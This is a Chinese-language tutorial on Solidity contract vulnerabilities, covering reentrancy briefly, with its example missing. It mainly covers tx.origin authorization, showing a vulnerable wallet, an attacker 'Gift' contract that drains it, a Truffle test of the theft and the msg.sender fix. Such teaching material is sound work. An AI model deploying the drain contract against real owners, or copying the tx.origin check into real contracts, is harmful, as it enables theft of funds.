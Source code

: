 # 合约漏洞

## 重入漏洞

进行转账时调用了攻击合约的`fallback()`或`receive()`函数就会产生重入漏洞。

例：


## tx.origi权限控制漏洞

因为`tx.origin`是交易的原始发起者，而不是当前调用的合约地址。黑客就可以利用这个漏洞绕过权限检查。

下面这个合约就存在权限控制漏洞。
``` solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = tx.origin;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
这是一个钱包合约，部署者可以在部署合约时把钱存到合约中，需要的时候可以通过调用`transfer`函数将钱包中的钱转到其他账户中。

黑客可以部署一个这样的合约诱骗部署者调用将钱转到自己的账户上。
``` solidity
contract Gift {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function receive() public {
        wallet.transfer(owner,address(wallet).balance);
    }
}
```
当`Wallet`的所有者调用`receive`函数时，`Wallet`中所有余额就被不知不觉地转到了黑客的账户中。

下面是truffle模拟
``` js
const Wallet = artifacts.require("Wallet");
const Gift = artifacts.require("Gift");
contract("test",(accounts)=>{
    it("正常转账",async ()=>{
        //创建钱包，存10ether
        const wallet = await Wallet.new({from:accounts[0],value:web3.utils.toWei("10","ether")});
        //转账给自己
        await wallet.transfer(accounts[0],web3.utils.toWei("10","ether"));
        assert.equal(await web3.eth.getBalance(wallet.address),web3.utils.toWei("0","ether"));
    });
    it("领取礼物",async ()=>{
        //创建钱包，存10ether
        const wallet = await Wallet.new({from:accounts[0],value:web3.utils.toWei("10","ether")});
        //黑客部署 gift
        const gift = await Gift.new(wallet.address,{from:accounts[1]});
        //领取礼物
        await gift.receive({from:accounts[0]});
        //钱包里的钱已经被黑客转走
        assert.equal(await web3.eth.getBalance(wallet.address),0);
    })
});
```

解决方法：将`tx.origin `换成`msg.sender`即可。





